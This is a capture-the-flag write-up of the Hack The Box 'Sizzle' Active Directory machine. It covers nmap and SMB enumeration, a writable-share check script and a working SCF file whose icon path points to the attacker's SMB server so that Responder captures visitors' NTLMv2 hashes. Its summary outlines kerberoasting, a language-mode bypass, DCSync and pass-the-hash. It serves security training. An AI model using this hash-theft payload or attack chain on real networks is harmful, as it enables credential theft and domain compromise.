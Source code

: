 ### Summary
- A Windows Domain Controller machine. We find an SMB share containing a writable folder called 'Public'. We place an `SCF` file there that directs the visiting user's computer to our listening responder where we capture his `NTLMv2` hash.
- After cracking it, we get the password for the `amanda` user which we use to enumerate the domain using `BloodHound`.
- Noticing that our user has PowerShell Remoting capabilities, we try to get access but are faced with a strange error.
- Upon inspecting the functionality of the `Evil-Winrm` tool, we find that we can use a certificate for logging in.
- We create a Certificate Signing Request using `openssl` and get it signed from the ADCS web interface found on the domain controller.
- We successfully achieve code execution using PowerShell Remoting but find ourselves in Contrained Language Mode which disables some functionalities.
- Looking back at the output of `BloodHound`, it did show a kerberoastable user called `mrlky` that has dangerous rights that could be abuse to do a `DCSync` attack.
- We bypass the Contrained Language Mode by downgrading to PowerShell Version 2 and are able to kerberoast after using the `-credential` switch to create a network logon.
- After kerberoasting the `mrlky` user, we crack his TGS hash and are able to get the password. We then proceed to `DCSync` and obtain the NTLM hash for the `administrator` account which we pass to gain complete access.

---

### Nmap
The nmap output shows us some good information:
- Machine name: Sizzle
- Domain Name: HTB.local
- FTP with anonymous login allowed
- IIS 10.0 on port 80 which indicates server 2016+ or windows 10
- SMB on port 445
- LDAP and GC on ports 389 and 3268
- WinRM on 5985/5986 which is always nice to have

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
|_ssl-date: 2022-04-30T19:56:16+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
|_ssl-date: 2022-04-30T19:56:16+00:00; 0s from scanner time.
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
| http-methods: 
|_  Potentially risky methods: TRACE
| tls-alpn: 
|   h2
|_  http/1.1
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_ssl-date: 2022-04-30T19:56:16+00:00; 0s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_ssl-date: 2022-04-30T19:56:16+00:00; 0s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_ssl-date: 2022-04-30T19:56:16+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername:<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2018-07-02T20:26:23
|_Not valid after:  2019-07-02T20:26:23
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: 2022-04-30T19:56:16+00:00; -1s from scanner time.
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49688/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SIZZLE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-04-30T19:55:42
|_  start_date: 2022-04-30T19:49:45
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
```

### Anonymous FTP
We notice the FTP port with anonymous login enabled.
No files are there, and we're not granted write access either. So we move on.

![Anon-FTP-no-write](Anon-FTP-no-write.jpg)

### HTTP/HTTPs
The home page just shows a GIF of bacon sizzling.

![http-homepage](http-homepage.jpg)

Spidering with gobuster shows an interesting directory `/certsrv` which indicates that the ADCS role is installed on this server.

![gobuser-output](gobuser-output.jpg)

the HTTPS website is similar in structure. so we move along.

### LDAP
The output of ldapsearch didn't show much information. 

![ldapsearch-output](ldapsearch-output.jpg)

I grepped out some unnecessary lines from the output to make it smaller.

### SMB
Enumerating SMB with crackmapexec reveals that we have read access to the `Department Shares` folder.

![cme-smb-share-enum](cme-smb-share-enum.jpg)

After mounting it, we notice a couple of folders:

![dpt-shares-folders](dpt-shares-folders.jpg)

the `Users` folder contained some usernames which save in a list for later use:

![userlist-from-smb](userlist-from-smb.jpg)

We find some files in the `ZZ_ARCHIVE` folder but they dont have any content:

![zz-archive-files](zz-archive-files.jpg)

we loop over the files use the `file` command and grepping out any empty hex line with `xxd` to find nothing there as well.

![checking_zz_archive](checking_zz_archive.jpg)

Since we're nearing a dead end with our enumeration, we're going to use a simple bash script to check from write access in the SMB shares.

```
#!/bin/bash
list=$(find /mnt -type d)
for d in $list
do
        touch $d/just-a-test-dir 2>/dev/null
        if [ $? -eq 0 ]
        then
                echo -e "\e[32m[+] $d is writable\e[0m"
                rm $d/just-a-test-dir
        else
                echo -e "\e[31m[-] $d is not writable\e[0m"
        fi
done
```
it does a `find` on the mount point with the `-type d` flag to get only directories and attempts to create a file in each one using `touch`. It prints out if the folder is writable or not and clears the test file if the folder is writable.

![check-write-script-results](check-write-script-results.jpg)

The results show that we have `write` access in both the `Public` and `ZZ_ARCHIVE` folders.

Having this access would allow us to plant a malicious type of file that would enable us to steal NTLMv2 hashes from users who access these locations.

### SCF File Attacks to Steal Hashes
SCF (Shell Command Files) are files that can perform some actions in Windows explorer. One functionality of them can be abused to have the share-visiting user directed to our kali machine. This can be done using a file with the below content:

```
[Shell]
Command=2
IconFile=\\10.10.16.7\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```

This tells file explorer to fetch the icon for the `.scf` file from a network share (which is our kali box in this case).

We're going to fire up `responder` making sure the `Responder.conf` file has the `SMB` server set to `ON`.

And then copy the `.scf` file to `\\10.10.10.103\Department Shares\Users\Public` as well as the `ZZ_ARCHIVE` folders to make sure any visitor gives us his/her hash.

![amanda-hash-captured](amanda-hash-captured.jpg)